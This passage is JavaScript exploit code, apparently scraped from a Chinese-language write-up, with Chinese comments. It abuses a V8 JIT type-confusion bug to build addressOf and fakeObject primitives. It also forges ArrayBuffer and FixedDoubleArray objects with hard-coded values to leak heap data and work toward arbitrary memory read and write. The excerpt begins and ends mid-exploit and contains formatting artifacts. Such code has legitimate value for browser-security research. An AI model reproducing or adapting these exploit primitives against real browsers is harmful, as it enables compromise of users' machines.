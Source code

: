 ```
    a = Array(0);
    opt(a,a,false,true);
`}`
//调用有漏洞的JIT代码，使得对象a发生类型混淆
a = Array(0);
opt(a,a,true,true);

function addressOf(obj) `{`
   var o = a[0];
   o[0] = obj;
   return u64_l(faker[4]) - 1;
`}`

function fakeObject(addr_to_fake) `{`
   var o = a[0];
   faker[4] = p64(addr_to_fake + 1);
   return o[0];
`}`

function isInt(obj) `{`
   return obj % 1 === 0;
`}`

var buf_addr = addressOf(buf);
//alert("buf_addr="+buf_addr.toString(16));
var backing_store_ptr = buf_addr + 0x14 + 0x8;
//伪造一个ArrayBuffer用于任意地址读写
faker[5] = p64(0,0x08202dbd);
faker[6] = p64(0x080426dd,0x080426dd);
faker[7] = p64(0xffffffff,0);
faker[8] = p64(0,0);
faker[9] = p64(0,2);

//伪造一个FixedDoubleArray用于泄露地址，因为最开始，我们不知道compression ptr的高4字节是什么，因此用FixedDoubleArray可以进行相对寻址，从而泄露数据
faker[10] = p64(0,0x0820317d);
faker[11] = p64(0x080426dd,0x08342181)
faker[12] = p64(0x7ffffffe,0x08042a31);
faker[13] = p64(0x7ffffffe,0)

//注意内存对齐
if (parseInt(backing_store_ptr &amp; 0xf) == 0x4 || parseInt(backing_store_ptr &amp; 0xf) == 0xc) `{`
   faker[15] = p64(0x08042a31,0x7ffffffe);
   faker[11] = p64(0x080426dd,0x08342195)
`}`

//获得伪造的对象
var arb_bufferArray = fakeObject(0x08342148);
var fake_doubleArr = fakeObject(0x08342170);

var offset;
if (parseInt(backing_store_ptr &amp; 0xf) == 0x4 || parseInt(backing_store_ptr &amp; 0xf) == 0xc) `{`
   offset = (0xFFFFFFFF - 0x0834219b + backing_store_ptr) / 8;
`}` else `{`
   offset = (0xFFFFFFFF - 0x08342187 + backing_store_ptr) / 8;
`}`
//泄露buf对象里的数据
var v = fake_doubleArr[offset];
//alert("offset="+offset.toString(16));
//alert("heap_addr=" + u64_h(v).toString(16) + u64_l(v).toString(16));

//伪造ArrayBuffer的backing_store，从而实现任意地址读写
```